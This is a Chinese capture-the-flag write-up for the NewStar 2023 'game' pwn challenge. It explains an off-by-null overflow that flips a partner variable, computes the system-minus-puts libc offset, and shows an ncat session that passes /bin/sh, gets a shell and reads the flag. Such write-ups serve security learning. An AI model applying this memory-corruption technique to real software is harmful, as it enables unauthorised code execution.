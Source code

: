 ```yaml
---
title: newstar2023 week4 - game
date: 2023/10/19 12:00:00
updated: 2024/7/25 12:34:56
tags:
    - noob
excerpt: 利用程序漏洞控制参数，成功执行system函数并获取flag。
---
```


## 文件分析

下载`pwn`, NX on, PIE on, Canary off, RELRO full  
ghidra分析为64位程序

## 解题思路

观察程序，发现 ~~原神~~ 函数末尾运行了`(*(puts + (-(long)cnt - (long)offset)))(bytes);`  
那么只要控制cnt和offset，就可以运行system；控制bytes可以打开shell

cnt在完成委托每次+0x10000，而offset通过输入%hd获得；  
bytes在对肯德基爷爷的话中可以输入；  
现在唯一的问题是：怎样既选择派蒙又选择三月七以满足`if ((flag_paimon != 1) || (flag_march7 != 1)) break;`
的条件？

发现myread函数存在**off-by-null**溢出，动调发现溢出的刚好是选择的伙伴变量，
那么只要先选三月七，然后溢出修改伙伴为派蒙即可

虽然题目中完成4次委托给了system地址，但是libc给了...直接在libc中找偏移，
得出`system - puts`=0x38592

## EXPLOIT

```
> ncat node4.buuoj.cn 29415
请选择你的伙伴1
我永远喜欢三月七!
现在你可以开始探险了1.扣1送原石2.扣2送kfc联名套餐2
你有什么想对肯德基爷爷说的吗?
/bin/sh
1.扣1送原石2.扣2送kfc联名套餐1
恭喜你完成一次委托1.扣1送原石2.扣2送kfc联名套餐1
恭喜你完成一次委托1.扣1送原石2.扣2送kfc联名套餐1
恭喜你完成一次委托1.扣1送原石2.扣2送kfc联名套餐3
you are good mihoyo player!
8592
cat flag
flag{removed}
```

Done.

